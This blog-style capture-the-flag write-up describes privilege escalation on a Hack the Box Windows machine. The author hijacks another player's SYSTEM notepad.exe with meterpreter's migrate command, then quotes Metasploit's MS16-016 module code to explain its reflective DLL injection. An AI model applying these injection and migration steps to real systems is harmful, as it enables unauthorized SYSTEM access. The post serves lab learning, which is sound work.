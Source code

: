 ```yaml
---
layout: post
title:  "Process All Access"
subtitle: "Hack the Box"
date:   2017-07-25 00:00:00 -0500
author: "coastal"
header-img: "images/htb/process-all-access/header.jpg"
---
```


Recently, I was working on privilege escalation from inside a Windows Server 2003 box. While I was enumerating the box, I took a look at the running processes and saw some interesting things.

```
>ps
PID   PPID  Name          Arch  Ses  User                Path
---   ----  ----          ----  ---  ----                ----
[...snip...]


2356  3312  cmd.exe        x86   0   IIS APPPOOL\Web     C:\Windows\system32\cmd.exe
2384  2784  notepad.exe    x86   0   NT AUTHORITY\SYSTEM C:\Windows\system32\notepad.exe
2732  1788  notepad.exe    x86   0   IIS APPPOOL\Web     C:\Windows\system32\notepad.exe
3312  1476  w3wp.exe       x86   0   IIS APPPOOL\Web     c:\windows\system32\inetsrv\w3wp.exe
```

We notice some curious processes for a remote server, specifically ```notepad.exe``` running as ```NT AUTHORITY\SYSTEM```. Now anyone familiar with meterpreter knows that ```notepad.exe``` is a favorite process to spin up as a host for the meterpreter session. Given the ```SYSTEM``` level access, it is likely that another hackthebox user has performed successful exploitation and is enjoying their new privileges. Just as a bit of a joke, I decided to try to receive some ill-gotten gains:

```
meterpreter > migrate 2384
[*] Migrating from 3312 to 2384...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Wait, whoops. I seem to have gotten myself ```SYSTEM``` without any of the heavy lifting! Congrats, right!

Well I decided that wasn't exactly sporting and ditched my shell. After I successfully performed the privilege escalation and got a proper ```SYSTEM```, I had to figure out why I had been able to own the box via ```migrate```. As I guessed (correctly) that the other user had performed priv esc via the same methodology, I checked the [source code](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms16_016_webdav.rb) of the exploit to see what was going on with the ```notepad.exe``` spawn.

```
print_status("Launching notepad to host the exploit...")
  notepad_process_pid = cmd_exec_get_pid("notepad.exe")
  begin
    process = client.sys.process.open(notepad_process_pid, PROCESS_ALL_ACCESS)
    print_good("Process #{process.pid} launched.")
  rescue Rex::Post::Meterpreter::RequestError
    print_error("Operation failed. Hosting exploit in the current process...")
    process = client.sys.process.open
end
```

So we try to spawn a new ```notepad.exe``` process that will host the exploit. If we are unable to spawn a new process, we use the current running process as the host. Offloading the escalation to a new ```notepad.exe``` is more stealthy than escalating the currently running process. As the running process ```w3wp.exe``` is an IIS worker process that handles requests sent to the IIS application pool, if our exploit crashes the process would die and most likely be noticed immediately by even an inattentive sysadmin. However, if a newly spawned ```notepad.exe``` process dies, it makes much less noise and doesn't impede application function.

The line of code in this section relevant to the strange behavior that we observed is:

```
process = client.sys.process.open(notepad_process_pid, PROCESS_ALL_ACCESS)
```

The notepad process is spawned with ```PROCESS_ALL_ACCESS``` designation. In the Windows Documentation on [Process Security and Access Rights](https://msdn.microsoft.com/en-us/library/windows/desktop/ms684880(v=vs.85).aspx), we can see that this flag, when passed to ```CreateProcess``` gives the new process object all possible access rights. This means that the any processes running on the system can use the new process to create new processes and threads, duplicate its handle, query information about the process such as tokens and access codes, set information about the process, read and write to its memory, perform an operation on its address space, and do basically whatever it likes with the new process.

Assuming we are successful in our process creation, we next load the exploit ```.dll``` into the process 

```
print_status("Reflectively injecting the exploit DLL into #{process.pid}...")
library_path = ::File.join(Msf::Config.data_directory, "exploits", "cve-2016-0051", "cve-2016-0051.x86.dll")
library_path = ::File.expand_path(library_path)
exploit_mem, offset = inject_dll_into_process(process, library_path)
print_status("Exploit injected ... injecting payload into #{process.pid}...")
payload_mem = inject_into_process(process, payload.encoded)
thread = process.thread.create(exploit_mem + offset, payload_mem)
sleep(3)
print_status("Done.  Verify privileges manually or use 'getuid' if using meterpreter to verify exploitation.")
```

As we can see, the lenient access rights on the process is what allows us to inject the exploit ```.dll```, payload, and run with ```SYSTEM``` privileges. 

Interestingly enough, it doesn't look like the exploit migrates the meterpreter session to the newly escalated ```notepad.exe``` process. While we could set our payload to a reverse shell and catch our new ```SYSTEM``` privileges, we could also perform the exploit without any payload and migrate meterpreter into the elevated ```PROCESS_ALL_ACCESS``` process. I decided to perform the priv esc that way, and got my ```SYSTEM``` the same as the cheap way. But this time I earned it.

-coastal

### Resources

https://msdn.microsoft.com/en-us/library/windows/desktop/ms684880(v=vs.85).aspx
https://docs.microsoft.com/en-us/iis/manage/configuring-security/application-pool-identities
https://stackoverflow.com/questions/7822898/what-is-w3wp-exe














